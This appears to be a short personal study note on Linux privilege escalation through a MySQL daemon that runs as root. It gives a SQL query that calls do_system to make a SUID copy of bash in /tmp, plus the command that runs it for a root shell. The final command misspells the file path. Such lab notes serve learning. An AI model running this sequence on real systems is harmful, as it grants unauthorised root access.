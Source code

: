 
2024-06-14 11:07

Source: #privesc 

Tags: [[sql]]

Firstly run the linux smart enumeration script to find entry points 
check the services that can run as root, in the current machine we can connect to `mysql` w/o password and `mysqld` is running as root

Find the version of mysql by running `mysqld --version` then find an exploit that matches the version 

 in the current machine we create an SUID version of the bash shell 
 run the following query in sql then exit out and run the file with -p
```
select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');
exit

/tmp/rootbsah -p
```





### References
